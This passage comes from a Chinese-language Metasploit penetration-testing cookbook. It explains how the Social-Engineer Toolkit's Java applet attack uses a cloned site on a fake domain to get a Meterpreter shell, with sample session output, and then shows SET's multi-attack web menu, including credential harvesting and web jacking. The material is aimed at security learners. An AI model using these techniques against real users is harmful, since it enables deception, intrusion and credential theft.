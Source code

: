 1.  您可以在`/pentest/exploits/set/src/web_clone/site/template`找到您的克隆模板以及 jar。现在一旦目标用户访问克隆的网站（托管在假域名上），将弹出一个小程序消息，看起来完全是一个安全的警报消息：![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-pentest-cb/img/7423_10_03.jpg)

现在一旦目标用户点击**允许**，恶意小程序就会被执行，并允许执行有效载荷。Metasploit 监听器将从目标机器接收到一个连接，因此我们将拥有一个活动会话：

```
[*] Sending stage (748544 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.103:443 ->
Thu Sep 09 10:06:57 -0400 2010
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > shell
Process 2988 created.
Channel 1 created.
Microsoft Windows XP [Version 6.1]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```

同样，我们也可以执行其他攻击。您可以看到 SET 如何轻松地为我们创建攻击向量，并为我们提供对我们的情景的完全控制。SET 的最好之处在于它可以让您在任何时候实施自己的修改和更改。

## 工作原理...

Java 小程序感染是一种常见的 Java 小程序漏洞，允许在受保护的沙箱环境之外执行小程序。未签名或不安全的小程序在受限制的系统资源访问权限的沙箱环境中执行。一旦恶意小程序在警告消息后被允许执行，它就获得了在目标机器上完全访问资源的特权，因为它现在处于沙箱环境之外。这允许小程序执行 Java 漏洞并允许远程代码执行。同样，其他基于网络的攻击向量使用浏览器将攻击传输到目标系统。社会工程再次在制造愚弄用户的情景方面发挥作用。攻击者可以在`href`标签下隐藏恶意链接，或者可以使用假签名对小程序进行签名，以使其看起来完全合法。SET 模板是设计攻击的良好来源。

# 多攻击网络方法

多攻击网络方法通过将多个攻击组合成一个攻击方法，将网络攻击提升到了一个新的水平。这种攻击方法允许我们将多个利用和漏洞组合到一个单一的格式中。一旦目标用户打开文件或 URL，每个攻击都会依次进行，直到报告成功的攻击。SET 自动化了将不同攻击组合成一个单一网络攻击方案的过程。让我们继续前进，看看这是如何完成的。

## 操作步骤...

多攻击网络方法与其他基于网络的攻击类似。我们首先选择一个模板，可以导入或克隆。不同之处在于下一步，我们可以选择可以添加到网络攻击中的各种利用。

选择要使用的攻击：

```
1\. The Java Applet Attack Method (OFF)
2\. The Metasploit Browser Exploit Method (OFF)
3\. Credential Harvester Attack Method (OFF)
4\. Tabnabbing Attack Method (OFF)
5\. Man Left in the Middle Attack Method (OFF)
6\. Web Jacking Attack Method (OFF)
7\. Use them all - A.K.A. 'Tactical Nuke'
8\. I'm finished and want proceed with the attack.
9\. Return to main menu.
Enter your choice one at a time (hit 8 when finished selecting): 
```

我们可以选择不同的攻击，一旦完成，我们可以输入`8`，最后将所选的攻击组合成一个单一的向量。最后，我们将被提示选择有效载荷和后门编码器。
